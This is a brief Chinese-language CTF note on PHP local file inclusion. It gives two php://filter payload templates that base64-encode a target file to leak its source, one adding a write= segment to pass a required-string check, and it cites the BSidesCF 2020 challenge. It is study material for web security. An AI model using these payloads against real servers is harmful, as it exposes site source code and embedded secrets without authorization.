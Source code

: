 ```php
php://filter/read=convert.base64-encode/resource=<filename>
```
另外，如果服务端要求参数中包含特定字符串时，可以利用下面的trick
```php
php://filter/read=convert.base64-encode/write=<required_string>/resource=<filename>
```
参考[[[BSidesCF 2020]Had a bad day]]

#Web #PHP #伪协议 #LFI #编码 